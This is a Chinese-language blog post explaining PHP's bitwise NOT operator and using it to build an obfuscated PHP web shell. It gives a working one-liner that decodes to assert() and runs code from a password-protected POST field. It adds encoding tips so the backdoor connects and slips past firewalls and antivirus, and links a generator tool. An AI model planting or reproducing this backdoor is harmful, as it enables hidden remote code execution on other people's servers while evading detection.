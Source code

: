 ```yaml
---
layout: post
title: PHP中使用按位取反 (~) 函数创建后门
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - evi1m0</p>

##### PHP ~ 位运算符

前一段时间老外在 twitter 上爆出个有趣的东西，一串疑似乱码的字符串访问后却能正常输出1337。

PHP: 位运算符 - [http://www.php.net/manual/zh/language.operators.bitwise.php](http://www.php.net/manual/zh/language.operators.bitwise.php)

    ~ $a        Not（按位取反）        将 $a 中为 0 的位设为 1，反之亦然。

PHP 的 ini 设定 error_reporting 使用了按位的值，提供了关闭某个位的真实例子。要显示除了提示级别之外的所有错误。

php.ini 中是这样用的： 

1. E_ALL & ~E_NOTICE 
2. 具体运作方式是先取得 E_ALL 的值： 00000000000000000111011111111111 
3. 再取得 E_NOTICE 的值： 00000000000000000000000000001000 
4. 然后通过 ~ 将其取反： 11111111111111111111111111110111 
5. 最后再用按位与 AND（&）得到两个值中都设定了（为 1）的位： 00000000000000000111011111110111

##### 分析并重现

这个就是当时最原始的代码实现效果：

<center><img src="http://ww3.sinaimg.cn/large/c334041bjw1eqyhz6jli3j208a05x74i.jpg"></center>

当看到这个效果的时候最先想到的就是绕过防火墙等后门的实现，之后开始考虑这是哪种编码方式？后来同李普君测试中发现直接使用echo ~'1';等则会直接输出以上的'乱码'。

<center><img src="http://ww2.sinaimg.cn/large/c334041bjw1eqyhzql66oj209l05pmxg.jpg"></center>

那么我们便可以开始写一句话试试效果了：

    <?php
    $x=~Ÿ¬¬º­«;
    $x($_POST[~¹¹ÏÏÏÏ]);
    ?>
    
<center><img src="http://ww3.sinaimg.cn/large/c334041bjw1eqyi09q1vmj20go07l0tu.jpg"></center>

这里定义$x变量为ASSERT，然后密码为FF0000直接链接后门便可，因为当位取反出来'乱码'后我们再取一次反即可返回正常值。

##### 关于编码与免杀

当重现这个后门的时候我发现，直接Copy过来的直接HTTP状态500，源头是编码问题，上面这种'乱码'其实为西欧（ISO-8859-15）。实际过程中我们遇到了多次后门无法链接出现500的错误均势因为编码问题，如果默认编码无法识别将编码方式保存为这种即可（GBK\UTF8\...均不能成功使用）

<center><img src="http://ww2.sinaimg.cn/large/c334041bjw1eqyi0vx9vtj20g408cn0d.jpg"></center>

##### 留在最后

我们写了一个小脚本为了方便生成：[http://www.hackersoul.com/tools/Createbackdoor-1.php](http://www.hackersoul.com/tools/Createbackdoor-1.php)

使用方法：Createbackdoor-1.php?pwd=password